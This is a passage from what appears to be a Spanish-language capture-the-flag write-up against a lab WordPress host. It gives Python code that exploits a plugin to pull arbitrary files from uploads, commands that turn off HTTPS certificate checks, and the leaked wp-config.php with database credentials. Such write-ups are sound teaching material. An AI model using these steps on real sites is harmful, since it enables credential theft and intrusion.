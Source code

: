 ```python
objHtml = urllib2.urlopen(url + '/?p=' + str(id))
content = objHtml.readlines()

for line in content:
        if 'attachment-post-thumbnail size-post-thumbnail wp-post-image' in line:
                urls=re.findall('"(https?://.*?)"', line)
                print urllib2.urlopen(urls[0]).read()
```
> No me creo que lo hice funcinar.

Ojo que va a tirar error de SSL por ser HTTPS la página que queremos acceder y tener un certificadao de no confianza. Para salvaguardar este problema de la manera más rápida pero desprolija hay que correr el siguiente comando:

---

>**``export PYTHONHTTPSVERIFY=0``**

---

Después de la ejecución satisfactoria se puede descargar cualquier archivo que esté en la carpeta de **uploads**:

>**``wget https://10.0.0.127:12380/blogblog/wp-content/uploads/1781004358.jpeg --no-check-certificate``**

y luego...

>**``cat 1781004358.jpeg ``**

```php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link https://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'plbkac');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/**#@+
```